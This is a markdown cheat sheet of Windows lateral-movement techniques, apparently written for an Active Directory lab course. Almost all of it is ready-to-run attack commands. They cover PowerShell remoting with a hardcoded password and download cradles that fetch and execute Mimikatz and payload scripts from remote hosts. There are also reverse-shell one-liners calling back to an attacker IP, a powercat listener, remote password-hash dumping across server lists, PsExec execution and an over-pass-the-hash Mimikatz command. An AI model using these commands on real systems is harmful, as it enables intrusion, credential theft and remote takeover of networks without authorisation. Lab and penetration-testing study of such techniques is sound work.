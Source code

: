 # Lateral Movement
> Movement Technique and Remote code execution

# table of content
1. [test](#test)


## Powershell Remoting
Change user

```powershell
$passwd = ConvertTo-SecureString "SuperS3Cr31PAssw0rd!@l33t" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("user", $passwd)
Enter-PSSession -Credential $creds -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
 ```
If you want to save the session
```powershell
$passwd = ConvertTo-SecureString "SuperS3Cr31PAssw0rd!@l33t" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("user", $passwd)
$sess = New-PSSession -Credential $creds
Enter-PSSession -Credential $creds -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
If you dont need a password
```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
Dont need password with saved session
```powershell
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Enter-PSSession -Session $sess
```

Execution Cradle
```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
iex (iwr http://172.16.100.134/Invoke-Mimikatz.
ps1 -UseBasicParsing)
```

### Invoke Command

Use below to execute commands or scriptblocks:
```powershell
Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
 ```
Use below to execute scripts from files (some script thet wont work can work in this mode)
```powershell
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
Use below to execute locally loaded function on the remote machines:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
```
In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```
In below, a function call within the script is used:
```powershell
Invoke-Command -Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
Use below to execute "Stateful" commands using Invoke-Command:
```powershell
$Sess = New-PSSession –Computername Server1
Invoke-Command –Session $Sess –ScriptBlock {$Proc = GetProcess}
Invoke-Command –Session $Sess –ScriptBlock {$Proc.Name}
```
## Technique (user hunting)
```powershell
Find-LocalAdminAccess -Verbose
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## RCE
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1')); Power -Reverse -IPAddress 172.16.100.X -Port 443


powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Power -Reverse -IPAddress 172.16.100.X -Port 443
```
powercat
```powershell
. .\powercat.ps1
powercat -l -v -p 443 -t 100
```
python open file
```bash
python -m SimpleHTTPServer 8080
python3 -m http.server
```

## WMI command
check access
```powershell
gwmi -Class win32_computersystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
command execute
```cmd
.\PsExec.exe \\dcorp-dc.dollarcorp.moneycorp.local ipconfig
```


## Over Pass The Hash
PTH with mimikatz --> perform activities as the hash but Windows still think I am the same person
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```